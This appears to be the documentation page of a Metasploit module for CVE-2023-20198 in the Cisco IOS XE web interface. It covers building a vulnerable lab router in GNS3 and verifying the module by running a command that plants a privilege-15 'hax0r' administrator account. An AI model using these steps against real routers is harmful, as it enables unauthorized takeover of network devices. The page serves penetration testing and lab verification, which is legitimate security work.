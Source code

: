 * Acquire a hardware device running one of the vulnerable firmware versions listed above.

Or

* Setup a virtualized environment.
  * A [CSR1000V](https://www.cisco.com/c/en/us/products/routers/cloud-services-router-1000v-series/index.html) device
    can be virtualized using [GNS3](https://www.gns3.com/) and VMWare Workstation/Player. Follow the
    [Windows setup guide](https://docs.gns3.com/docs/getting-started/installation/windows) to install GNS3 and the
    [topology guide](https://docs.gns3.com/docs/getting-started/your-first-gns3-topology) to learn how GNS3 can be used.
  * A suitable firmware image for testing would be `csr1000v-universalk9.16.12.03-serial.qcow2`.
  * When setting up GNS3, run the `GNS3 2.2.43` Virtual Machine for deploying QEMU based devices.
  * Create a new CSR1000v instance as a QEMU device.
  * The CSR1000v device's first ethernet adapter `Gi1` should be connected to a Cloud device, whose adapter was bridged
    to the physical adapter on the host machine, allowing an IP address to be assigned via DHCP, and allowing the Web UI to
    be accessible to a remote attacker.
  * When the virtual router has booted up, you must enable the vulnerable WebUI component. From a serial console on
    the device:
    ```
    Router>enable
    Router#config
    Router(config)#ip http server
    router(config)#ip http secure-server
    router(config)#ip http authentication local
    router(config)#username admin privilege 15 secret qwerty
    router(config)#exit
    Router#copy running-config startup-config
    ```
  * You should now be able to access the WebUI via https://TARGET_IP_ADDRESS/webui and login with admin:qwerty

## Verification Steps
1. Start msfconsole
2. `use auxiliary/admin/http/cisco_ios_xe_cli_exec_cve_2023_20198`
3. `set RHOST <TARGET_IP_ADDRESS>`
4. `set CMD "username hax0r privilege 15 secret hax0r"`
5. `set MODE global`
6. `run`
7. Visit `https://<TARGET_IP_ADDRESS>/webui/` in a browser and log in with username `hax0r` and password `hax0r`.

## Options

### CMD

The Cisco CLI command to execute.
